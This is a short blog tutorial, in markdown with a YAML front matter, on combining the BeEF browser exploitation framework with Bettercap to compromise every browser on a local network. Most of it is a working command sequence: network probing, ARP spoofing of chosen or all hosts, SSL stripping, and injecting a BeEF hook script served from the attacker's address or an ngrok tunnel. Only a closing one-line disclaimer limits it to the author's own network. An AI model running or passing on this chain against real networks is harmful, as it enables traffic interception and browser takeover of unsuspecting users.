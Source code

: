 ```yaml
---
title: Beef + Bettercap, Hook The Whole Network
publishedOn: January 31st, 2023
slug: beef-bettercap
excerpt: Beef and Bettercap can be used together to automate network hooking. Beef is an open-source framework for penetration testing and security assessments, used to run and manage a collection of browser exploitation tools. Bettercap is a Swiss army knife for network attacks and monitoring. By combining Beef and Bettercap, a hacker can create a custom tool to automate the process of hooking, or compromising, every device on a network.
readingTime: 5 mins
---
```


# Browser Exploitation Framework + Bettercap
## Hook the whole network

Beef and Bettercap can be used together to automate network hooking. Beef is an open-source framework for penetration testing and security assessments, used to run and manage a collection of browser exploitation tools. Bettercap is a Swiss army knife for network attacks and monitoring. By combining Beef and Bettercap, a hacker can create a custom tool to automate the process of hooking, or compromising, every device on a network.

## Main Concepts

- ARP Spoofing: A technique used to intercept data packets by deceiving the target device into believing that the attacker's device is the default gateway.
- SSL Stripping: A method used to downgrade HTTPS connections to unencrypted HTTP, allowing an attacker to see and modify the data being transmitted.
- Network Communication: Understanding how data is transmitted between devices on a network and the different protocols used (such as HTTP, HTTPS, DNS, etc.).
- Man-in-the-Middle Attacks: Understanding the concept of intercepting and manipulating network communication between two parties without their knowledge.
- Browser Exploitation: Understanding how to exploit vulnerabilities in web browsers to gain control over the target device.


In the world of cybersecurity, network hooking is a technique used to compromise devices on a network to assess its security or perform malicious attacks. Beef and Bettercap are two powerful tools that can be used together to automate this process. In this article, we'll take a closer look at how to use these tools to hook a network.

## **What is Beef?**
Beef is an open-source framework for penetration testing and security assessments. It runs a collection of browser exploitation tools and provides a web-based interface to manage these tools. With Beef, a hacker can easily find and exploit vulnerabilities in web browsers to compromise target devices.

## **What is Bettercap?**
Bettercap is a Swiss army knife for network attacks and monitoring. It can perform various functions such as ARP spoofing, DNS spoofing, and SSL stripping. By using Bettercap, a hacker can manipulate network traffic and launch man-in-the-middle attacks to compromise target devices.

## **Using Beef and Bettercap Together**
In this demo, I am going to assume you have a working version of beef-xss and Bettercap already if you wanted to follow along. If not, this is still the process and shows how easy it is to accomplish in just a few commands.

Start Beef with....
    `sudo beef-xss`

Start Bettercap, 

`sudo bettercap en0`

Now we need to turn on net.probe to find devices on our network
so from inside Bettercap...
`net.probe on`

To see your network...

`net.show`

We need to set some clients to arp spoof, or you can choose the whole network. 

`set arp.spoof.targets <ip>,<ip>, <ip> OR *`


Let's see what's needed to move forward

`help http.proxy`

Start up Beef

`sudo beef-xss`

Now you should see both beefs web-ui url and a hook url. Check your IP address as well, or use ngrok to expose your local host. 

Start the arp spoof we set earlier..

`arp.spoof on`

We need to configure the http.proxy with ssl strip

`set http.proxy.sslstrip true`

Put the beef hook on the proxy

`set http.proxy.injectjs <insert your beef hook>`

`set http.proxy.injectjs <http://My IP or Ngrok url/hook.js>`

Make sure to either add your external or start ngrok to expose you're localhost beef server.

Now make sure to turn on http.proxy now that settings are configured....

Also make sure everything else is started. Net.probe on, net.sniff on, net.recon on

`http.proxy on`

### **Now we are setup to hook everyone on the network automatically without them clicking anything at all.**

# *Always use responsibly, this is to be tested on your own network*

## Brendan Frisby
[Github](https://github.com/bfrisbyh92)




